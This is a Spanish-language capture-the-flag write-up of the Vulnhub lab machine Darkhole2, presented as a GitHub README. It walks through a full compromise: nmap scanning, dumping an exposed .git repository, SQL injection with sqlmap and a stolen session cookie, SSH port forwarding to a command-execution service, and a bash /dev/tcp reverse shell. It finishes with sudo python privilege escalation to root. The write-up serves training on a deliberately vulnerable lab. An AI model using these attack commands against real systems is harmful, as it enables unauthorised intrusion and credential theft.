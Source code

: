 # Darkhole2-Vulnhub-Writeup
Writeup de la maquina Darkhole2 de Vulnhub

El sistema se pondra a prueba en VirtualBox

![descripcion](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/descripcion.jpg)

## Escaneo de Red
En primer lugar, tenemos que obtener la dirección IP del objetivo

![uso del netdiscover](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/netdiscover.jpg)

~~~
netdiscover
~~~

Iniciando Nmap para avanzar en este proceso. Realizamos un escaneo agresivo (-A) para la enumeración de puertos abiertos y descubrimos la siguiente información de puertos:

~~~
nmap -A 192.168.40.133
~~~

![uso del nmap](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/nmap.jpg)

De acuerdo con la salida de Nmap, tenemos:
Un servidor SSH que se ejecuta en el puerto 22.
Un servicio HTTP ejecutándose (servidor Apache) en el puerto 80, así como una página http-git.

## Enumerar el servidor web
Debido a que el servidor Apache está escuchando en el puerto 80, podemos verificarlo inmediatamente en el navegador.

![visualizacion de laweb](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/web.jpg)

Decidimos echar un vistazo a la página de inicio de sesión.

![vista login](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/login.jpg)

Decidimos echar un vistazo a la página http-git que descubrimos previamente durante el escaneo agresivo de Nmap.
![vista repositorio git](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/git.jpg)

Usamos git-dumper
Es una herramienta para adquirir un repositorio git de un sitio web para obtener una mejor comprensión del conjunto de datos.
Simplemente usamos la función de clonación de git.
Creamos un directorio para nuestro respaldo .git

![vista gitclone](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/gitclone.jpg)
~~~
cd darkhole2
git clone https://github.com/arthaud/git-dumper.git
ls
cd git-dumper 
mkdir backup
~~~

Después de descargar la herramienta, intentamos ejecutarla con python .

![vista gitlog](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/gitdumpe%20python.jpg)
~~~
python3 git_dumper.py http://192.168.40.133/.git/ backup
~~~

Después de eso, accedimos al directorio de respaldo y el archivo de registro tenía tres entradas. Usando git, abrimos una de las entradas para continuar.
Finalmente, descubrimos las credenciales de la página de inicio de sesión descubiertas antes durante el abuso de http.

![vista gitlog](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/git%20log.jpg)
~~~
cd backup
ls
git log
git diff  a4d900a8d85e8938d3601f3cef113ee293028e10
~~~

Finalmente, descubrimos las credenciales de la página de inicio de sesión descubiertas antes durante el abuso de http.

~~~
Email: lush@admin.com
Password: 321
~~~

## Explotación
Nos logeamos en esa página, parece ser adecuada para tácticas relacionadas con la inyección de SQL.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/375d0afe-a663-4ae2-8ed7-7b8d8306ebf3)

### BURP SUITE
Entonces, usamos burpsuite para recopilar las cookies de esta página. Será ventajoso para nuestra estrategia de inyección SQL.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/67b83dec-2f36-473b-a4fa-3e095e98f890)

### Usando SQLMAP
Insertamos la cookie capturada anteriormente en sqlmap 

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/a1530d38-1748-4d26-be2e-8bea8c6bd538)
![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/6f481be5-6ea5-4d6d-a0b4-cc0253ba88c4)
~~~
sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="PHPSESSID=674p5g2tk29ieclq6iqdtc2mu4" --dbs –batch
~~~

Obtuvimos algunas bases de datos en cuestión de minutos. Entonces, iniciamos otro comando (usando el parámetro -D) para volcar la base de datos llamada darkhole_2

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/3cd9ae27-b481-4022-a0bf-34499d6aa230)

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/3480ebbb-a385-4252-b9d4-659b051f6225)

~~~
sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="PHPSESSID=674p5g2tk29ieclq6iqdtc2mu4" -D darkhole_2 --dump-all --batch
~~~

En cuestión de momentos, descubrimos las credenciales ssh para el usuario Jehad en esta base de datos de volcado. 

~~~
User: jehad
Pass: fool
~~~

Ahora, usando estas credenciales ssh, iniciamos sesión con el usuario Jehad y abrimos su identificación para autenticarlo.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/cf4abf46-fdfd-475e-95b5-290e7efff130)

~~~
ssh jehad@192.168.40.133
id
~~~

## Escala de privilegios

Vemos un cron  que se ejecuta con el usuario losy.

Aquí podemos ver que un servidor web se está ejecutando en el puerto 9999. Cuando vemos el contenido del código fuente, vemos que esto permite la ejecución remota de comandos.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/dc94e9dc-3ae6-4bb0-8952-f6756a3bdcb7)

    cat /etc/crontab

Por lo tanto, podemos tunelizar el puerto 9999 usando SSH de la siguiente manera.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/114f1fdc-9351-4819-82fa-3deaad1243f6)

Ha llegado el momento de lanzar este asalto. Intentamos iniciar sesión como el usuario jehad, utilizando los detalles del reenvío de puertos locales proporcionados en los resultados anteriores que obtuvimos.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/51057c2c-55c0-431d-9b7f-74c05d631591)

    ssh -L 9999:127.0.0.1:9999 jehad@192.168.40.133

Luego, podría visitar 127.0.0.1:9999 para el RCE.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/d2d24d1f-ac23-4737-b236-7b3fd5a142d3)

    http://127.0.0.1:9999/?cmd=id

Ahora, podemos obtener un reverse shell con el usuario losy. Para eso, estoy escuchando en el puerto 9001.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/shellr.jpg)

    nc -nlvp 9001

El siguiente payload me daría un reverse shel.

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

En formato url   &->%26  (URL encode)

    bash -c 'bash -i >%26 /dev/tcp/192.168.40.128/9001 0>%26

Mandamos el payload cambiando id por el cofificado en URL previamente realizado en el paso anterior. 'http://127.0.0.1:9999/?cmd=id'
  
    http://127.0.0.1:9999/?cmd=bash -c 'bash -i >%26 /dev/tcp/192.168.40.128/9001 0>%261'

Obtenemos respuesta del Puerto de escucha:

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/61540892-f8c6-4f7b-9935-4cbe60706754)

~~~~
cd
ls -la
cat user.txt
cat.bash history
~~~

Descubrimos las credenciales de inicio de sesión de losy en este archivo de historial de bash.

    losy: gang

Después de eso, probamos los permisos sudo de este usuario. Descubrimos que podíamos llegar a la raíz usando una sola línea de python

~~~
sudo –S –l
gang
~~~

Ahora ejecuta este one-liner de python con sudo y la credencial losy.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/d4a26c9c-18d0-470f-a940-eba826879334)

~~~
sudo python3 -c 'import pty; pty.spawn("/bin/bash")'
cd
cat root.txt
~~~

Obtuvimos usuario root con acceso a la raiz
